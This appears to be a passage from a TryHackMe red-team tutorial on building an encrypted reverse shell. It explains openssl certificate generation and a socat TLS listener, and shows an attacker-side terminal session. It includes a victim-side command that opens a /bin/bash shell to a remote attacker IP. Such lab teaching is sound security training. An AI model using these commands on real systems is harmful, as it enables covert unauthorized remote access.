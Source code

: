 `openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt`

The arguments in the above command are:

- `req` indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
- `-x509` specifies that we want an X.509 certificate
- `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as `-newkey rsa:2048`.)
- `-days 365` shows that the validity of our certificate will be one year
- `-subj` sets data, such as organization and country, via the command-line.
- `-nodes` simplifies our command and does not encrypt the private key
- `-keyout PRIVATE_KEY` specifies the filename where we want to save our private key
- `-out CERTIFICATE` specifies the filename to which we want to write the certificate request

The above command returns:

- Private key: `thm-reverse.key`
- Certificate: `thm-reverse.crt`

The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate `.crt` files. We can use `cat` to create our PEM file from the two files that we have just created:

`cat thm-reverse.key thm-reverse.crt > thm-reverse.pem`.

**Secondly**, with the PEM file ready, we can start listening while using the key for encrypting the communication with the client.

`socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT`

If you are not familiar with `socat`, the options that we used are:

- `-d -d` provides some debugging data (fatal, error, warning, and notice messages)
- `OPENSSL-LISTEN:PORT_NUM` indicates that the connection will be encrypted using OPENSSL
- `cert=PEM_FILE` provides the PEM file (certificate and private key) to establish the encrypted connection
- `verify=0` disables checking peer’s certificate
- `fork` creates a sub-process to handle each new connection.

**Thirdly**, on the victim system, `socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash`. Note that the `EXEC` invokes the specified program.

Let’s demonstrate this. On the attacker system, we carried out the following:

Pentester Terminal

```shell-session
pentester@TryHackMe$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
Generating a RSA private key
........................++++
......++++
writing new private key to 'thm-reverse.key'
-----
pentester@TryHackMe$ ls
thm-reverse.crt  thm-reverse.key
pentester@TryHackMe$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
2022/02/24 13:39:07 socat[1208] W ioctl(6, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
2022/02/24 13:39:07 socat[1208] N listening on AF=2 0.0.0.0:4443
```
